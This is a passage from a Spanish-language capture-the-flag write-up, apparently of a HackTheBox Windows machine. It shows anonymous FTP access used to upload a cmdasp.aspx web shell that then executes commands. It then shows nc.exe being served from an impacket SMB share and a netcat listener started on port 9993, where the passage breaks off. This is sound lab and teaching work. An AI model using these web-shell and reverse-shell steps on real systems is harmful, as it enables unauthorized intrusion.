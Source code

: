 Subimos el archivo `cmdasp.aspx` por `FTP`, he probado a subirlo en los demás directorios pero solo me deja en este, además he usado al final el archivo `.aspx` debido a que el .asp no me lo interpreta

```
# ftp 10.129.155.162
Connected to 10.129.155.162.
220 Microsoft FTP Service
Name (10.129.155.162:justice-reaper): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmdasp.aspx
local: cmdasp.aspx remote: cmdasp.aspx
229 Entering Extended Passive Mode (|||49200|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************|  1442       17.62 MiB/s    --:-- ETA
226 Transfer complete.
1442 bytes sent in 00:00 (6.36 KiB/s)
```

## Web Exploitation

Al acceder al `http://10.129.155.162/cmdasp.aspx` probamos a ejecutar `comandos` y funciona

![](/assets/img/Devel/image_1.png)

## Intrusión

Nos copiamos `nc.exe` a nuestro `directorio actual` de trabajo

```
# locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe

# cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

Nos montamos un `servidor smb` en nuestro `directorio actual`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Nos ponemos en `escucha` por el `puerto 9993` con `netcat`

```
# nc -nlvp 9993
```
